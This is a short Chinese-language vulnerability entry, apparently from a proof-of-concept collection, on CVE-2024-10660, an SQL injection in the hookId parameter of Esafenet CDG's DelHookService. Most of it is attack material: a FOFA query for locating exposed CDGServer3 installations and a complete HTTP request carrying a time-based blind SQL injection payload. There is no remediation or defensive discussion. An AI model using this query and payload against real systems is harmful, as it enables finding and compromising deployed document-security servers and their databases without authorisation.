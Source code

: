# 亿赛通CDG电子文档安全管理系统DelHookService存在sql注入漏洞(CVE-2024-10660)

亿赛通CDG电子文档安全管理系统，该漏洞源于文件/com/esafenet/servlet/policy/HookService.java的参数hookId会导致SQL注入。

## fofa

```javascript
body="/CDGServer3/index.jsp"
```

## poc

```javascript
GET /CDGServer3/parameter/HookService;logindojojs?command=DelHookService&hookId=1';if(db_name()='CobraDGServer')+WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Accept-Language: zh-Hans-CN;q=1
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411061657549.png)



## 漏洞来源

- https://flowus.cn/share/9d33a5d8-87b1-482b-8642-a8fcf27585ba?code=G8A6P3